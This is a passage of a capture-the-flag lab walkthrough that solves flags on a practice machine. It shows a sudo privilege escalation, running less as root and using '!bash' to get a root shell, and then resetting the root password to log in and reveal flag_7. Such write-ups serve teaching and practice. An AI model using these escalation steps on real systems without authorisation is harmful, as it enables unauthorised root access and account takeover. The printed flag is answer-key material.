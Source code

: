 Find an exploit to gain a root shell.

**Solution:**

Look at the `sudo` permissions for sysadmin:

```bash
sysadmin:~\ $ sudo -l
[sudo] password for sysadmin: 
Matching Defaults entries for sysadmin on scavenger-hunt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadmin may run the following commands on
        scavenger-hunt:
    (ALL : ALL) /usr/bin/less
```

You have the ability to run `less` with `sudo`. 

Run less on a file and drop to a root shell:

```bash
sysadmin:~\ $ touch file && sudo less file
```

Once inside `less`, open a bash shell with `:` then `!bash`.

```bash
sysadmin:~\ $ touch file && sudo less file
root:~\ $ 
```

### flag_7:

Login as the root user.

**Solution:**
Now that you have a root shell, change the password for the root user and then login as `root`.

```bash
root:~\ $ passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
root:~\ $ exit
exit
!done  (press RETURN)
sysadmin:~\ $ su root
Password: 

You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

root@scavenger-hunt:/home/sysadmin#
```

### flag_8:
